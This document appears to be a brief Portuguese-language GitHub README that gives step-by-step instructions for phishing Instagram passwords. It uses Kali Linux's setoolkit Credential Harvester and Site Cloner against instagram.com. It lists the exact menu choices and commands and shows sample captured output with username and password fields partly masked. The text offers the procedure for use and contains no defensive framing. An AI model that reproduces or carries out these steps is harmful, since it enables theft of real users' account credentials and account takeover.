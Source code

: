# Phishing para captura de senhas do Instagram

### Ferramentas Utilizadas

- Kali Linux
- setoolkit

### Configurando o Phishing no Kali Linux

- Acesso root: ``` sudo su ```
- Iniciando o setoolkit: ``` setoolkit ```
- Tipo de ataque: ``` Social-Engineering Attacks ```
- Vetor de ataque: ``` Web Site Attack Vectors ```
- Método de ataque: ```Credential Harvester Attack Method ```
- Método de ataque: ``` Site Cloner ```
- Obtendo o endereço da máquina: ``` ifconfig ```
- URL para clone: http://www.instagram.com

### Resutados
                                        \/\/\/\/\/\/\/\/
POSSIBLE USERNAME FIELD FOUND: username=XXXXXXX@XXXXXXXX                                                                                         
[*] WHEN YOU'RE FINISHED, HIT CONTROL-C TO GENERATE A REPORT.

[*] WE GOT A HIT! Printing the output:                                          \/\/\/
POSSIBLE PASSWORD FIELD FOUND: enc_password=#PWD_INSTAGRAM_BROWSER:0:1734392052:XXXXXXX   


![Minha imagem](Screenshot_2024-12-16_20_47_46.png)



